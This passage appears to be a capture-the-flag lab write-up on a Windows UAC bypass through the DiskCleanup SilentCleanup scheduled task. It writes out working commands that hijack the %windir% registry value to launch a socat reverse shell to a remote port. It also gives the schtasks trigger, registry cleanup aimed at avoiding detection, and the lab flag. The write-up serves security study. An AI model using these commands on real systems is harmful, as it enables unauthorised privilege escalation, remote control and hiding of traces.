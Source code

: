 To retrieve the DiskCleanup flag, use your new shell to execute:

Administrator: Command Prompt

```shell-session
C:\flags\GetFlag-diskcleanup.exe
```

**Note: Keep in mind that the flag will only be returned if you successfully bypassed UAC via diskcleanup, and only from the resulting high integrity shell via socat.**

  

### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```batch
reg delete "HKCU\Environment" /v "windir" /f
```

**Note: Be sure to execute the given command to avoid any artefact interfering with the following tasks. Since many Windows components rely on the %windir% environment variable, a lot of things won't** properly **work until you remove the registry key used for this bypass.**


## Practical
---

Make sure to read everything and let's start:

```
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:IP:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

Once we run the last command, we will receive our connection:

![[Pasted image 20250522114917.png]]

Let's get our flag:

```
C:\Windows\system32>C:\flags\GetFlag-diskcleanup.exe
THM{SCHEDULED_TASKS_AND_ENVIRONMENT_VARS}
```

Now, let's clean up:

```batch
reg delete "HKCU\Environment" /v "windir" /f
```

# Automated Exploitation

---